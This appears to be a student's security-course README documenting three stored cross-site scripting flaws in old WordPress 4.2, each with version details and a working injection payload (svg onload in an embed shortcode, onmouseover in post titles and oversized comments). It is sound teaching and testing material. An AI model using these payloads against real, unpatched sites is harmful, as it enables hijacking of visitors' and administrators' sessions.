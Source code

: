 # Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![](https://github.com/Azhao19/Cybersecurity2021/blob/wp_exploits/Vuln1notYT.gif)
  - [ ] Steps to recreate: In the content of a post, enter the following:
        ```
        $ [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(12312313)\x3e'][/embed]
        ```
        Then, go to the post. The XSS will appear.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
### 2. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![] (https://github.com/Azhao19/Cybersecurity2021/blob/wp_exploits/Vuln2YT.gif)
  - [ ] Steps to recreate: In the title of a post, enter the following:
        ```
        $ <a href="</a><a title=" onmouseover=alert('xss')  ">link</a>
        ```
  - [ ] Affected source code:
    - wp-includes/kses.php wp-includes/shortcodes.php
### 3. (Required) Stored Cross-Site Scripting
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![] (https://github.com/Azhao19/Cybersecurity2021/blob/wp_exploits/Vuln3BIG.gif)
  - [ ] Steps to recreate: Suppose LARGE represents a 64 KB block of text. Then enter this into a comment:
        ```
        $ <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px LARGE'></a>
        ```
        The XSS will then appear persistently.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
